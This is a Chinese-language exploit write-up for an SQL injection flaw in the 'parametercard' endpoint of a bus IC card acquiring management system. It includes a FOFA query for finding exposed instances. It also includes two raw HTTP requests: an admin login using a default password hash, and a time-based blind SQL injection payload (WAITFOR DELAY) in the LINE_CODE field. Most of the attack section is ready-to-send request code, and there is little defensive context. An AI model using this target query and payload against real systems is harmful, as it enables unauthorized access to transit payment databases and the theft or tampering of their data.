 # 公交IC卡收单管理系统parametercard存在SQL注入漏洞

公交IC卡收单管理系统parametercard存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="公交IC卡收单管理系统"
```

## poc

获取cookie

```javascript
POST /login HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest

username=admin&password=e10adc3949ba59abbe56e057f20f883e
```

```javascript
POST /parametercard HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Priority: u=0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate

method=select&organization=&lineCode=&_search=false&nd=1727249021156&rowCountPerPage=10&pageNo=1&sidx=LINE_CODE&sord=asc&ORGANIZATION_CODE=&LINE_CODE=1');WAITFOR DELAY '0:0:5'--
```


